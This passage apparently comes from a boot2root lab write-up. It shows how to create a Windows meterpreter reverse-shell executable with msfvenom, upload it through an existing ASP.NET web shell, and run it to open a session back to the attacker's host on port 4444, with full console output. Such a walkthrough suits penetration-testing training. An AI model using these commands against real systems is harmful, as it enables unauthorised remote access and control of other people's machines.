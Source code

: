 

### Create a binary native reverse shell with MSFVEnom

Prior experience shows that some meterpreter shells (particularly the web based ones like `php` and `aspx`) are less functional than their native OS binary equivalents, accordingly, we deployed a second access method using a meterpreter in a exe package.

    root@kali:~/boot2root# msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.99 LPORT=4444 -o rshell.exe
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 333 bytes
    Final size of exe file: 73802 bytes
    Saved as: rshell.exe


### Upload it through the ASP.NET shell

    meterpreter > lcd /root/boot2root
    meterpreter > upload rshell.exe
    [*] uploading  : rshell.exe -> rshell.exe
    [*] uploaded   : rshell.exe -> rshell.exe


### Run it on the host

    meterpreter > shell
    Process 4052 created.
    Channel 2 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    c:\Test>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is E0CE-337D
    
     Directory of c:\Test
    
    07/26/2018  08:19 PM    <DIR>          .
    07/26/2018  08:19 PM    <DIR>          ..
    11/13/2017  10:38 PM    <DIR>          New folder
    07/26/2018  08:19 PM               333 rshell.exe
                   1 File(s)            333 bytes
                   3 Dir(s)  122,943,504,384 bytes free
    
    c:\Test>rshell.exe
    rshell.exe
    
    c:\test>rshell.exe
    
    [*] Sending stage (179267 bytes) to 192.168.0.102
    rshell.exe
    
    c:\test>[*] Meterpreter session 17 opened (192.168.0.99:4444 -> 192.168.0.102:49159) at 2018-07-26 23:25:03 -0400
